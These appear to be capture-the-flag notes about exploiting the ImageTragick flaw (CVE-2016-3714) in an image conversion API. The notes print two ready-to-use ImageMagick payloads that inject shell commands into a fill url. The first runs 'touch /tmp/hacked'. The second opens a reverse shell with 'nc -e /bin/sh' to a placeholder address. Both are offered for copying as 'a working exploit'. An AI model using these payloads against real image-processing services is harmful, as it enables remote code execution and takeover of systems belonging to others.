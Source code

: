Believe that this is referencing `CVE-2016-3714` the ImageTragick Exploitation
- to get the flag something happens in the API when the `.jpg` to `.png` conversion occurs 
![[Pasted image 20240712142254.png]]
To make a working exploit, all you have to do is copy the following code in your favorite text editor and save it as an image (.jpg, .png etc).
```bash
# exploit.png
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/oops.jpg"|touch "/tmp/hacked)'
pop graphic-context
```
When the user uploads the image, command (touch /tmp/hacked) gets executed. Although, the user won't see the output of the commands, this can be easily escalated to a reverse shell. Take a look at the following example.
```bash
# reverse.png
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg"|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE)'
pop graphic-context
```